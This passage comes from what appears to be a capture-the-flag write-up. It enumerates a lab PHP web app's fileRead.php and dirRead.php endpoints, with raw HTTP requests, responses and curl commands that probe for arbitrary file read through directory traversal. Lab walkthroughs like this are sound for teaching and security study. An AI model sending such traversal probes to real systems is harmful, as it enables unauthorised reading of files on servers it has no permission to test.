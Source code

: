 

    [".","..",".list","background.jpg","cursor.png","dirRead.php","face.png","fileDelete.php","fileRead.php","fileWrite.php","index.php","list.md","list.js"]



#### fileRead.php

With an idea of the files and where they are, reading files seems like
the next place to check out. The request passes a `file` parameter:



    POST /fileRead.php HTTP/1.1
    Host: 10.10.10.87
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:61.0) Gecko/20100101 Firefox/61.0
    Accept: */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://10.10.10.87/list.md
    Content-type: application/x-www-form-urlencoded
    Content-Length: 18
    Connection: close

    file=./.list/list1



The the response gives what looks like the content of the file:



    HTTP/1.1 200 OK
    Server: nginx/1.12.2
    Date: Mon, 06 Aug 2018 21:51:22 GMT
    Content-Type: application/json
    Connection: close
    X-Powered-By: PHP/7.1.16
    Content-Length: 71

    {"file":"{\"1\":\"Enumerate<br>\",\"2\":\"...\",\"3\":\"Profit<br>\"}"}



### Arbitrary File Read

With those two functions, I can get to get arbitrary directory listing
and file reads.

#### Detecting Filters

I already showed that doing a directory read on `/` returns the.md
root, not the box root. Can I just use `../`? Well, no:



    root@kali# curl -X POST -d "path=/" http://10.10.10.87/dirRead.php
    [".","..",".list","background.jpg","cursor.png","dirRead.php","face.png","fileDelete.php","fileRead.php","fileWrite.php","index.php","list.md","list.js"]

    root@kali# curl -X POST -d "path=/../" http://10.10.10.87/dirRead.php
    [".","..",".list","background.jpg","cursor.png","dirRead.php","face.png","fileDelete.php","fileRead.php","fileWrite.php","index.php","list.md","list.js"]
